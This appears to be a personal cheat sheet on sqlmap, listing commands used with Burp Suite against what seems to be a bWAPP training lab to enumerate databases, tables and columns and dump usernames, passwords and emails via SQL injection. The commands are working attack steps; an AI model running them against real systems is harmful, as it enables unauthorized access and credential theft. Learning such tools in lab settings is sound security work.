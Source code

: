 # sqlmap:

- capture get request sent to web using burpsuite
- `sqlmap -u <url> --cookie <cookie> -p <payload_param> --dbs`
- `sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title`
	- -p flag: payload param
- `sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title --dbs`
	- --dbs : get databases for the sql
- `sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP --tables` 
	- -D : specify a database
	- --tables : get tables in specific db (requires -D)
- `sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP -T users --columns`
	- T : specify a table 
	- --columns: get all columns in a table (requires -T)
- `sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump`
	- C : get specific columns (comma-separated) (use with --dump)


- for **post requests**, save the intercepted post req from burpsuite in a file.
	- -r : specify the file with request
- eg. sqlmap -r request -p title

![sqlmap](./images/sqlmap-01.png)